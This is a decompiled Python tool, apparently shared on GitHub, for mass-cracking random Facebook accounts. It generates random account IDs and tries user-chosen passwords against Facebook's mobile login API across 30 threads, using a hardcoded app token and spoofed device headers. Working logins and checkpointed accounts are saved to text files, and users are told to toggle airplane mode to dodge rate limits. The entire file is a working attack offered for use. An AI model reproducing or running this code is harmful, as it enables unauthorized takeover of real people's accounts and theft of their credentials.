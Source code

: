 # Decompile by Mardis (Tools By Md. Rifat Hasan Rear)
W = '\033[97;1m' 
R = '\033[91;1m' 
G = '\033[92;1m' 
Y = '\033[93;1m' 
B = '\033[94;1m'
P = '\033[95;1m'
C = '\033[96;1m'
N = '\x1b[0m'



import os
try:
	import requests
except ImportError:
	os.system("pip install requests")

try:
	import concurrent.futures
except ImportError:
	os.system("pip install futures")

import os
import sys
import time
import requests
import random
import platform
import base64
import subprocess
from concurrent.futures import ThreadPoolExecutor

logo = """
\033[92;1m╭───────────────────────────────────────────────────────────╮
\033[92;1m│\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m────────────────────\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m─────────────────────\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m│
\033[92;1m│                 \033[1;37m \033[1;93m╭━━━╮╭╮╭━━━┳╮╱╭\033[1;92m┳━━━━╮                    │
\033[92;1m│                 \033[1;37m \033[1;93m╭━━━╮╭╮╭━━━┳╮╱╭\033[1;92m┳━━━━╮                    │
\033[92;1m│                 \033[1;37m \033[1;93m┃╭━╮┣╯┃┃╭━━┫┃╱┃\033[1;92m┃╭╮╭╮┃                    │
\033[92;1m│                 \033[1;37m \033[1;93m┃╰━╯┣╮┃┃╰━━┫╰━╯\033[1;92m┣╯┃┃╰╯                    │
\033[92;1m│                 \033[1;37m \033[1;93m┃╭╮╭╯┃┃┃╭━━┻━━╮\033[1;92m┃╱┃┃                      │
\033[92;1m│                 \033[1;37m \033[1;93m┃┃┃╰┳╯╰┫┃╱╱╱╱╱┃\033[1;92m┃╱┃┃                      │
\033[92;1m│                 \033[1;37m \033[1;93m╰╯╰━┻━━┻╯╱╱╱╱╱╰\033[1;92m╯╱╰╯                      │
\033[92;1m│\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m────────────────────\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m─────────────────────\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m│
\033[92;1m│\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m────────────────────\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m─────────────────────\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m│
\033[92;1m╰───────────────────────────────────────────────────────────╯
\033[92;1m╰───────────────────────────────────────────────────────────╯
 \033[1;32m[\033[0;41;37m==========={ AUTHER 🔥\033[0;37;41m KING JISAN }===========\033[1;37;40m\033[1;32m] \033[1;37;40m     
   """


class Main:
	def __init__(self):
		self.id = []
		self.ok = []
		self.cp = []
		self.loop = 0
		os.system("clear")
		print(logo)
		print(' \033[1;95mDont Decode My Tools \033[0m')
		print(' \033[1;95mThis Tool Clone Old Random Account \033[0m')
		print("")
		print("%s [%s1%s]%s CRACK RANDOM FB ID 2008-11 %s[Just-Now-Open]"%(P,G,R,Y,B))
		print(" \033[1;96m[2] EXIT")
		__JISAN = input("\n\033[0;91m>>> \033[0;92m CHOOSE \033[0m: ")
		if __JISAN in ["", " "]:
			Main()
		elif __JISAN in ["1", "01"]:
			self.fbtua()
		else:
			exit()

	def fbtua(self):
		x = 111111111
		xx = 999999999
		idx = "100000" 
		os.system('clear');print(logo)
		limit = int(input(" \033[0;95m[+]\033[0;93m TOTAL IDS TO CRACK LIMIT 50,000: "))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(G,Y,B,Y))
				print("%s EXAMPLE : %s786786,123456,1234567,123456789"%(G,Y))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(G,Y))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(B))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(G,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(Y))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(G))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 10 SECONDS\x1b[0m\n"%(P))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n[>>] CRACK COMPLETE...")
		except Exception as e:exit(str(e))

	def api(self, uid, pwx):
		ua = random.choice([
			"Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z007;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]", 
			"Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]"
		])
		sys.stdout.write(
			"\r\r %s[JISAN] : %s/%s -> \033[0;97m [OK:%s ] \033[0;97m[CP:%s ]"%(W,self.loop, len(self.id), len(self.ok), len(self.cp))
		); sys.stdout.flush()
		for pw in pwx:
			pw = pw.lower()
			ses = requests.Session()
			headers = {
				"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), 
				"x-fb-sim-hni": str(random.randint(20000, 40000)), 
				"x-fb-net-hni": str(random.randint(20000, 40000)), 
				"x-fb-connection-quality": "EXCELLENT",
				"x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",
				"user-agent": ua, 
				"content-type": "application/x-www-form-urlencoded", 
				"x-fb-http-engine": "Liger"
			}
			response = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers) 
			if "session_key" in response.text and "EAAA" in response.text:
				print("\r  \033[0;92m   [JISAN-OK] %s | %s\033[0;97m         "%(uid, pw))
				self.ok.append("%s|%s"%(uid, pw))
				open("ok.txt","a").write("  * --> %s|%s\n"%(uid, pw))
				break
			elif "www.facebook.com" in response.json()["error_msg"]:
				print("\r  \033[0;91m   [JISAN-CP] %s | %s\033[0;97m         "%(uid, pw))
				self.cp.append("%s|%s"%(uid, pw))
				open("cp.txt","a").write("  * --> %s|%s\n"%(uid, pw))
				break
			else:
				continue

		self.loop +=1

try:Main()
except Exception as e:exit(str(e))

